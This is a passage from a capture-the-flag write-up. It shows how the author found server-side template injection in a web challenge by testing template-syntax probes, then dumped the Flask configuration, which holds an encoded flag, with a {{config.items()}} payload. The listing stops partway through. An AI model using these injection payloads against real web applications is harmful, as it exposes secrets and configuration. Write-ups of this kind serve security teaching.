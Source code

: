 _Note: when I was writing this write-up, I noticed that the subtitle hints at the `os` module as the letters "os" are marked yellow in "d**os**e"._

## Finding the vulnerability

After trying several things, [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) (SSTI) came to mind.

SSTI occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

An easy way to check for SSTI is by using the following graph from PortSwigger:

{{< figure src="/img/writeups/adventofctf/2020/16/ssti_graph.png" title="SSTI Graph (by PortSwigger)" >}}

So I followed this graph and got the following results:

`emoji=${7*7}` -> `You entered an unknown emoji: ${7*7}`  
`emoji={{7*7}}` -> `You entered an unknown emoji: 49`  
`emoji={{7*'7'}}` -> `You entered an unknown emoji: 7777777`

This means the server is most likely using either Jinja2 of Twig.

## Exploit

Now that we found the vulnerability, we can start exploiting it. Let's start by getting the config. We can try to get it by entering `{{config}}` or `{{config.items()}}` as the emoji.

{{< code language="python" title="Result" >}}

```python
dict_items([
  ('ENV', 'production'),
  ('DEBUG', True),
  ('TESTING', True),
  ('PROPAGATE_EXCEPTIONS', None),
  ('PRESERVE_CONTEXT_ON_EXCEPTION', None),
  ('SECRET_KEY', Undefined),
  ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)),
  ('USE_X_SENDFILE', False),
  ('SERVER_NAME', None),
  ('APPLICATION_ROOT', '/'),
  ('SESSION_COOKIE_NAME', 'session'),
  ('SESSION_COOKIE_DOMAIN', False),
  ('SESSION_COOKIE_PATH', None),
  ('SESSION_COOKIE_HTTPONLY', True),
  ('SESSION_COOKIE_SECURE', False),
  ('SESSION_COOKIE_SAMESITE', None),
  ('SESSION_REFRESH_EACH_REQUEST', True),
  ('MAX_CONTENT_LENGTH', None),
  ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)),
  ('TRAP_BAD_REQUEST_ERRORS', None),
  ('TRAP_HTTP_EXCEPTIONS', False),
  ('EXPLAIN_TEMPLATE_LOADING', True),
  ('PREFERRED_URL_SCHEME', 'http'),
  ('JSON_AS_ASCII', False),
  ('JSON_SORT_KEYS', True),
  ('JSONIFY_PRETTYPRINT_REGULAR', True),
  ('JSONIFY_MIMETYPE', 'application/json'),
  ('TEMPLATES_AUTO_RELOAD', None),
  ('MAX_COOKIE_SIZE', 4093),
  ('flag', 'HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*'),
  ('CLD_CONTINUED', 6),
  ('CLD_DUMPED', 3),
  ('CLD_EXITED', 1),
  ('CLD_TRAPPED', 4),
```